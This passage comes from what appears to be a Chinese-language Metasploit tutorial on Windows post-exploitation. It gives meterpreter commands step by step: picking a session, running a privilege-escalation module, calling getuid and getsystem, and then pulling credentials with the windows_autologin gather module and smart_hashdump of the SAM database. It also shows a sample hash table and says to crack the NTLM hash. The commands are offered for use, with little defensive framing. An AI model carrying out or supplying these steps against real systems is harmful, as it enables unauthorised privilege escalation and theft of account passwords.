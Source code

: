 ![](https://cdn.jsdelivr.net/gh/wangyuhubugui/BJYH_picture@main/img/image-20230115193515736.png#id=lLBDq&originHeight=45&originWidth=786&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

3. 接着输入:

```
show options
```

![](https://cdn.jsdelivr.net/gh/wangyuhubugui/BJYH_picture@main/img/image-20230115193549803.png#id=KrBgj&originHeight=251&originWidth=632&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

4. 查看session

```
sessions
```

![](https://cdn.jsdelivr.net/gh/wangyuhubugui/BJYH_picture@main/img/image-20230115193631844.png#id=Fzlkk&originHeight=257&originWidth=826&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

5. 配置session

```
set session 需要提权的session id
```

6. 输入:

```
run
```

![](https://cdn.jsdelivr.net/gh/wangyuhubugui/BJYH_picture@main/img/image-20230115193659003.png#id=bHQVU&originHeight=91&originWidth=747&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

> 此时, getuid , 看到的还不是 系统管理员, 我们需要一次输入:
>  

```
getuid

getsystem
```


## 拿到管理员账号和密码

> **注意: 一下所有的命令均在meterpreter下**


### 方法一: 拿自动登录的电脑的账号和密码
```
run windows/gather/credentials/windows_autologin
```
如果提示这证明本机并没有配置自动登录
![](https://cdn.jsdelivr.net/gh/wangyuhubugui/BJYH_picture@main/img/image-20230115200258326.png#id=ueg81&originHeight=83&originWidth=826&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

> **注意: 下面三种方法必须在系统管理员下(提权)**


### 方法二: 导出SAM数据库本地账户密码文件
```
run post/windows/gather/smart_hashdump

# 如果成功的话, 输入完成后就可以直接看到出现的站好和密码
```
| 用户名 | SID | LM哈希: | NTLM哈希1::: |
| --- | --- | --- | --- |
| 这里对着账户名字 | 1000 | aad3b435b51404eeaad3b435b51404ee | (这里对应的就是密码, 需要到cmd5解析) |
